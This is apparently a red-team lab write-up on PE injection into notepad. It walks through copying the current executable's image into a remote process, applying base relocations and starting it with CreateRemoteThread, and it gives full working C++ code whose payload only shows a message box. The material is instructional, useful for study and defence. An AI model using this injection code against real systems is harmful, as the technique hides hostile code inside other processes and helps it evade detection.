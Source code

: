 ```yaml
---
description: Code Injection
---
```


# PE Injection: Executing PEs inside Remote Processes

This is a quick lab of a simplified way of injecting an entire portable executabe \(PE\) into another running process. Note that in order to inject more complex PEs, additional DLLs in the target process may need to be loaded and Import Address Table fixed and for this, refer to my other lab [Reflective DLL Injection](reflective-dll-injection.md#resolving-import-address-table).

## Overview

In this lab, I wrote a simple C++ executable that consists of two functions:

* `main` - this is the function that is responsible for injection of the PE image of the running process into a remote/target process
* `InjectionEntryPoint` - this is the function that will get executed by the target process \(notepad in my case\) once it gets injected. 
  * This function will pop a `MessageBox` with a name of the module the code is currently running from. If injection is successful, it should spit out a path of notepad.exe.

High level process of the technique as used in this lab:

1. Parse the currently running image's PE headers and get its `sizeOfImage`
2. Allocate a block of memory \(size of PE image retrieved in step 1\) in the currently running process. Let's call it `localImage`
3. Copy the image of the current process into the newly allocated local memory
4. Allocate new memory block \(size of PE image retrieved in step 1\) in a remote process - the target process we want to inject the currently running PE into. Let's call it `targetImage`
5. Calculate delta between memory addresses `localImage` and `targetImage`
6. Patch the PE you're injecting or, in other words, relocate it/rebase it to `targetImage`. For more information about image relocations, see my other lab [T1093: Process Hollowing and Portable Executable Relocations](process-hollowing-and-pe-image-relocations.md)
7. Write the patched PE into `targetImage` memory location
8. Create remote thread and point it to `InjectionEntryPoint` function inside the PE

## Walkthrough

Getting `sizeOfImage` of the current process \(local process\) that will be injecting itself into a target process and allocating a new memory block in the local process:

![](../../.gitbook/assets/image%20%28140%29.png)

In my case, the new memory block got allocated at address `0x000001813acc0000`. Let's copy the current process's image in there:

![](../../.gitbook/assets/image%20%28280%29.png)

Let's allocate a new block of memory in the target process. In my case it got allocated at `0x000001bfc0c20000`:

![](../../.gitbook/assets/image%20%28214%29.png)

Calculate the delta between 0x000001bfc0c20000 and 0x000001813acc0000 and apply image base relocations. Once that's done, we can move over our rebased PE from 0x000001813acc0000 to 0x000001bfc0c20000 in the remote process using `WriteProcessMemory`. Below shows that our imaged has now been moved to the remote process:

![](../../.gitbook/assets/image%20%2891%29.png)

Finally, we can create a remote thread and point it to the `InjectionEntryPoint` function inside the remote process:

```cpp
CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);
```

![New thread getting created inside notepad.exe](../../.gitbook/assets/newthread.gif)

## Demo

Below shows how we've injected the PE into the notepad \(PID 11068\) and executed its function `InjectionEntryPoint` which printed out the name of a module the code was running from, proving that the PE injection was succesful:

![](../../.gitbook/assets/pe-injection.gif)

## Code

```cpp
#include "pch.h"
#include <stdio.h>
#include <Windows.h>

typedef struct BASE_RELOCATION_ENTRY {
    USHORT Offset : 12;
    USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint()
{
    CHAR moduleName[128] = "";
    GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
    MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
    return 0;
}

int main()
{
    PVOID imageBase = GetModuleHandle(NULL);
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
    PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

    PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
    memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

    HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 11068);
    PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

    PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
    DWORD relocationEntriesCount = 0;
    PDWORD_PTR patchedAddress;
    PBASE_RELOCATION_ENTRY relocationRVA = NULL;

    while (relocationTable->SizeOfBlock > 0)
    {
        relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
        relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

        for (short i = 0; i < relocationEntriesCount; i++)
        {
            if (relocationRVA[i].Offset)
            {
                patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
                *patchedAddress += deltaImageBase;
            }
        }
        relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
    }

    WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);
    CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

    return 0;
}
```

## References

{% embed url="https://www.andreafortuna.org/2018/09/24/some-thoughts-about-pe-injection/" caption="" %}

{% embed url="https://blog.sevagas.com/PE-injection-explained" caption="" %}

{% embed url="https://www.malwaretech.com/2013/11/portable-executable-injection-for.html" caption="" %}


